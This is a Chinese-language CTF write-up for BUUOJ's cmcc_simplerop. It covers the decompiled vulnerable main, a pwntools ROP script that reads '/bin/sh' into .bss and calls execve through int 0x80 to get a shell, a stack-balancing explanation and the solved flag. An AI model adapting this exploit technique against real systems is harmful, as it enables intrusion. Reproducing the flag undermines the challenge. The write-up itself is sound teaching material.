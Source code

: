 # cmcc_simplerop

[题目地址](https://buuoj.cn/challenges#cmcc_simplerop)

看起来rop非常简单，实际上每次都能从rop中学到之前没注意的东西。

ghidra分析了好一会才出来。要么就是这道题代码量上天，要么就是程序静态包含了libc。此题明显是后者，可以直接找到main。

```c
void main(void)

{
  undefined local_24 [32];
  
  puts("ROP is easy is\'nt it ?");
  printf("Your input :");
  fflush((FILE *)stdout);
  read(0,local_24,100);
  return;
}
```

本来想ROPgadget自动生成payload的，实际测试也可以，但是长度超了。好吧只能自己写了。基础薄弱，写了半天出不来，找个[wp](https://blog.csdn.net/A951860555/article/details/115286266)看看。rop确实没什么好讲的了，但是此题有些细节需要注意。

```python
from pwn import *
p=remote("node4.buuoj.cn",26913)
read_addr=0x0806cd50
bss=0x080eb584
edx_ecx_ebx=0x0806e850
int_0x80=0x080493e1
eax=0x080bae06
main=0x08048e24
payload=b'a'*0x20+p32(read_addr)+p32(edx_ecx_ebx)+p32(0)+p32(bss)+p32(8)+p32(eax)+p32(0xb)+p32(edx_ecx_ebx)+p32(0)+p32(0)+p32(bss)+p32(int_0x80)
p.sendline(payload)
p.sendline("/bin/sh\x00")
p.interactive()
```

乍一看有点吓人，这么长？仔细一看不过如此。前面的a就是填充，注意此题无论ida还是ghidra看到的偏移量都不对，需要自己用gdb或者其他的动态调试得到真正的偏移0x20。接着返回到read函数地址，p32(0)+p32(bss)+p32(8)都是参数，从stdin读入8个字节到我们选好的bss段。问题是为什么要把返回地址填为p32(edx_ecx_ebx)呢？结合一些ret2libc的题，我们一般是放main地址，泄露完地址就行了。可是这道题不一样，read执行完才解决/bin/sh的问题（程序内没有现成的/bin/sh)，剩下的呢？如果说填pop_eax的地址，确实能返回到pop_eax这个gadget，但是仔细瞧瞧，pop进去的是啥？是read的第一个参数0！因为这时esp指着read的第一个参数。

我们需要让栈平衡，说人话就是让esp重新指向我们需要的下一步指令。刚才传参用的p32(0)+p32(bss)+p32(8)遗留在了栈上，正好用p32(edx_ecx_ebx)清理掉。p32(edx_ecx_ebx)这个gadget的内容不是重点，重点是需要3个pop清理栈内容，任何包含3个pop及ret的gadget都行。清理完成后esp重新指向p32(eax)，放进去0xb作为execve的系统调用号，涉及到[32位的系统调用](https://introspelliam.github.io/2017/08/06/pwn/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8%E7%BA%A6%E5%AE%9A/)：

- Linux 32位的系统调用是通过int 80h来实现的，eax寄存器中为调用的功能号，ebx、ecx、edx、esi等等寄存器则依次为参数。

照着传就行了。后面的rop链就很简单了，没有涉及栈平衡，因为全都是pop gadget。发送payload再补充read的/bin/sh\x00，\x00为了与其他bss上的内容区分开，防止到时候getshell时把其他的字符串带进去。

## Flag
> flag{df152b7f-fbe3-4ccd-9c3f-8c570db8ad7d}